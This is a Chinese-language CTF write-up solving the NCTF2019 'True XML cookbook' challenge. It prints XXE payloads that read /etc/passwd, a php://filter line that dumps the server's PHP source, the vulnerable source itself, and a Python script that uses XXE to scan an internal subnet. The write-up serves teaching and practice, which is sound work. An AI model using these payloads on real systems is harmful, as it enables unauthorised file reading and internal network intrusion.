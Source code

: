 ```yaml
---
layout: mypost
title: "[NCTF2019]True XML cookbook"
categories: [ctf_wp]
---
```


（这个题需要对 xxe 漏洞理解透彻，如果大家还是对 xxe 漏洞有点懵，可以先去看我的另一篇文章--对 xml 的亿点理解，这篇文章将从原理到利用，一步一步带大家认识 xxe，让大家以后不再害怕它）

（还有就是这道题在 buuctf 的环境有的时候正常，有的时候出问题）

1.这个题目还是挺新颖的，题目提示了 XML，这个题基本上是 xxe 漏洞了，其实没给的话，一步一步也能分析出来，咱们一步一步往下看，首先进去的话是一个登录框，f12 以及看了网络抓包，得到了一个可疑的东西，就是源码里面有这样一串 js 的代码

```
<script type='text/javascript'>
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}

	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>";
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    });
}
</script>
```

读过我那篇--对 xml 的亿点理解的小伙伴，可能一眼就看出来，这个 js 代码应该是用来给后端发送这个 xml 的数据的，然后也有处理从后端传到前端的的 xml 数据，下面具体说一下吧

```
1. 首先，它从页面上的两个元素（ID分别为username和password）中获取用户输入的用户名和密码
2. 然后，它检查用户名和密码是否为空。如果任一为空，它会弹出一个警告并停止执行
3. 如果用户名和密码都不为空，它会创建一个XML格式的数据，然后通过AJAX POST请求发送到doLogin.php
4. 如果请求成功，它会解析返回的XML数据，获取code和msg，并根据code的值更新页面上的.msg元素的文本
5. 如果请求失败，它会更新页面上的.msg元素的文本，显示错误信息
```

2.实锤了这个题目应该就是用 xxe 来解决的，直接抓个包看一下，这就很明显了，是一个 xml 的数据格式

![](Screenshot_168.png)

然后我就废话不多说了，直接上 payload 的吧，如果看不懂的话，先去看我的另一篇文章（唠叨一嘴）

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [<!ELEMENT user ANY >
<!ENTITY  xxe SYSTEM "file:///etc/passwd" >]>
<user><username>&xxe;</username><password>2
</password></user>
```

![](image-20231006173107545-1024x251.png)

下面是 response

![](image-20231006173131330.png)

这个题还是很简单的哈，也是正常的有回显的 xxe，这样就不用再去搞个公网 vps 啥的了，当然这个无回显也很简单啦，就是多两行代码的事情

3.然后我就试着去主机的根目录以及去网站的根目录找有没有 flag，结果都是以失败告终

![](image-20231006173634169-1024x573.png)

然后想着那就先把这个 doLogin.php 的源码给扒下来吧，这个当然用 file 不太行哈，换个伪协议

```
php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php
```

然后就读到 base64 加密后的字符，解密后就是源码

```
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

这源码屁用没有啊，给了账号密码登上去也没后台，但还是给大家解释一下吧，就当熟悉熟悉这个写法了

```
1. 首先，定义了两个变量 $USERNAME 和 $PASSWORD，这些是预设的用户名和密码
2. libxml_disable_entity_loader(false); 这行代码允许加载外部实体，这可能导致 XML 实体注入（XXE）漏洞！！！
3. $xmlfile = file_get_contents('php://input'); 这行代码从 HTTP 请求体中获取 XML 数据
4. 在 try 块中，使用 DOMDocument 对象加载并解析 XML 数据
5. 使用 simplexml_import_dom 函数将 DOM 对象转换为 SimpleXML 对象，以便更容易地处理
6. 从 XML 数据中提取用户名和密
7. 检查提取的用户名和密码是否与预设的用户名和密码匹配。如果匹配，返回一个 XML 结果，其中包含代码 1 和用户名。如果不匹配，返回一个 XML 结果，其中包含代码 0 和用户名
8. 如果在处理 XML 数据时发生异常，将捕获该异常并返回一个 XML 结果，其中包含代码 3 和异常消息
9. 最后，设置响应的内容类型为 text/html; charset=utf-8，并输出结果
```

4.实在是不会了，去看了一下师傅的 wp，才觉悟过来，这个题不仅仅是个简单的 xxe，忘记了 xxe 还能做内网探测，起到了相当于 nmap 的功能，其实我一开始在读/etc/passwd 的时候也去顺便的读了这个/proc/net/arp 文件以及/etc/hosts，这个也是再做一道 ctf 题的经验，甚至去读了用户的操作记录，但都没什么可疑的，但现在回头看，这明显就是 buuctf 环境有问题，当时在读/proc/net/arp 的时候，真的是只显示了一块网卡，但重新开了一个靶机后，结果就是下面这样

![](屏幕截图-2023-10-06-162140-1024x638.png)

竟然显示了两块网卡（这个搞网安的，经常开虚拟机，应该懂什么意思）

5.然后就用 http 这个协议去探测就行，呜当时看书还想过一下是不是这样搞，md，该死 buuctf，一个一个探测肯定不太现实，但是用 bp 爆破的话，出现了一个问题，就是这个发包之后回显的时间会很长，http 没有探测到内容的话，应该马上就会回显相应的提示，我猜测这是出题人故意设置的，但 bp 好像没法改响应时间（两者可能冲突了，当时 bp 的反应就是直接卡死不动了，可能也是我的 bp 有问题吧），所以还是写个 python 脚本吧，强大的 requests 库万岁！！！

```
import requests as res
url="http://cb4236ae-2262-46e8-a095-f420887c377f.node4.buuoj.cn:81/doLogin.php"
rawPayload='<?xml version="1.0"?>'\
         '<!DOCTYPE user ['\
         '<!ENTITY payload1 SYSTEM "http://10.244.80.{}">'\
         ']>'\
         '<user>'\
         '<username>'\
         '&payload1;'\
         '</username>'\
         '<password>'\
         '23'\
         '</password>'\
         '</user>'
for i in range(1,256):
    payload=rawPayload.format(i)
    #payload=rawPayload
    print(str("#{} =>").format(i),end='')
    try:
        resp=res.post(url,data=payload,timeout=0.3)
    except:
        continue
    else:
        print(resp.text,end='')
    finally:
        print('')
```

然后跑就完了，一会儿就能出结果

![](屏幕截图-2023-10-06-180348-1024x539.png)

Finish!!!